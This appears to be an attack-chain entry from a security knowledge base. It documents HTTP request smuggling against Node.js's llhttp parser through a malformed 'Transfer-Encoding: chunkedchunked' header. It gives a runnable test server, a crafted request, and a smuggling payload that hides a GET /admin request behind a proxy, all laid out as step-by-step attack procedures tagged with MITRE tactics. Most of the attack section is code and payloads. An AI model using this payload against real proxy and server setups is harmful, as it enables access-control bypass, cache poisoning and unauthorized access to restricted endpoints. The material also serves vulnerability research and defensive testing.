

---
tags:
  - http-request-smuggling
  - node-js
  - transfer-encoding
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/Node-js]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/node-js-http-server-setup]]'
  - '[[commands/http-get-malformed-transfer-encoding]]'
  - '[[commands/http-get-smuggling-payload]]'
platforms:
  - Web
  - Node.js
complexity: medium
procedures:
  - '[[procedures/Set-Up-Node-js-Test-HTTP-Server-for-Vulnerability-Testing]]'
  - '[[procedures/Send-Crafted-HTTP-Request-with-Malformed-Transfer-Encoding]]'
  - '[[procedures/Observe-Server-Response-to-Confirm-Parsing-Flaw]]'
  - '[[procedures/Demonstrate-HTTP-Request-Smuggling-in-Proxy-Backend-Scenario]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploits a parsing flaw in Node.js's llhttp parser to perform HTTP Request
  Smuggling, leading to potential cache poisoning, security bypass, or
  unauthorized access.
skill_level: intermediate
impact_level: high
id: eb9c56fe-fc97-4ed6-af87-1ae7bf15610d
created_at: '2025-12-13T09:01:17.349Z'
updated_at: '2025-12-13T09:01:17.349Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# HTTP Request Smuggling in Node.js via Malformed Transfer-Encoding Headers

## Overview

This attack chain exploits a vulnerability in the llhttp parser of Node.js's http module, where invalid Transfer-Encoding headers like 'chunkedchunked' are incorrectly parsed as valid 'chunked'. This leads to desynchronization between upstream proxies and the Node.js server, enabling HTTP Request Smuggling. The attack can result in cache poisoning, security bypass, credential theft, or smuggling requests to restricted endpoints. The chain involves setting up a test server, sending crafted requests, observing the parsing flaw, and demonstrating smuggling in a proxy scenario.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Node-js]]

### Target Environment

- Node.js environment (version 17.8.0 or vulnerable versions)
- HTTP server setup
- Ports: 80
- Services: HTTP server
- Tech Stack: Node.js, http module, llhttp parser

### Initial Access Requirements

- Local access to run Node.js server
- Ability to send HTTP requests to localhost or target server
- No prior credentials needed for testing

## Detailed Attack Procedures

### Step 1: Set Up Test Server
procedure: [[procedures/Set-Up-Node-js-Test-HTTP-Server-for-Vulnerability-Testing]]

**Objective**: Create a Node.js HTTP server to test request parsing behavior.

**Instructions**: Use [[commands/node-js-http-server-setup]] to start the server:

```javascript
const http = require('http'); http.createServer((request, response) => { let body = []; request.on('error', (err) => { response.end('error while reading body: ' + err) }).on('data', (chunk) => { body.push(chunk); }).on('end', () => { body = Buffer.concat(body).toString(); response.on('error', (err) => { response.end('error while sending response: ' + err) }); response.end(JSON.stringify({ 'Headers': request.headers, 'Length': body.length, 'Body': body, }) + '\n'); }); }).listen(80);
```

**Expected Output**: Server starts listening on port 80 and is ready to process requests.

**Success Indicators**:
- Server runs without errors
- Port 80 is bound

### Step 2: Send Crafted Request
procedure: [[procedures/Send-Crafted-HTTP-Request-with-Malformed-Transfer-Encoding]]

**Objective**: Test the server's parsing of a malformed Transfer-Encoding header.

**Instructions**: Send the request using [[commands/http-get-malformed-transfer-encoding]]:

```http
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunkedchunked

1
a
0


```

**Expected Output**: Server processes the request as chunked, responding with JSON showing body length 1 and body 'a'.

**Success Indicators**:
- Invalid header is accepted
- Body is parsed correctly despite malformation

### Step 3: Observe Response
procedure: [[procedures/Observe-Server-Response-to-Confirm-Parsing-Flaw]]

**Objective**: Verify that the server improperly parses the invalid header.

**Instructions**: Monitor the server's output for the processed request. No specific command is executed here, but check the response from the previous step.

**Expected Output**: JSON response indicating acceptance of the malformed header.

**Success Indicators**:
- Body length and content match the sent chunk
- No parsing errors reported

### Step 4: Demonstrate Smuggling
procedure: [[procedures/Demonstrate-HTTP-Request-Smuggling-in-Proxy-Backend-Scenario]]

**Objective**: Show desynchronization leading to request smuggling.

**Instructions**: Send the smuggling payload using [[commands/http-get-smuggling-payload]]:

```http
GET / HTTP/1.1
Host: localhost
Transfer-Encoding: chunkedchunked

26
GET / HTTP/1.1
Host: localhost
Content-Length: 30

0

GET /admin HTTP/1.1


```

**Expected Output**: Proxy ignores invalid header, but Node.js processes smuggled request to /admin.

**Success Indicators**:
- Smuggled request is executed
- Desynchronization confirmed

## Attack Chain Summary

### Key Achievements

1. Confirmed parsing flaw in Node.js http module
2. Demonstrated request smuggling potential
3. Highlighted risks like cache poisoning and unauthorized access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: [TIMESTAMP]*
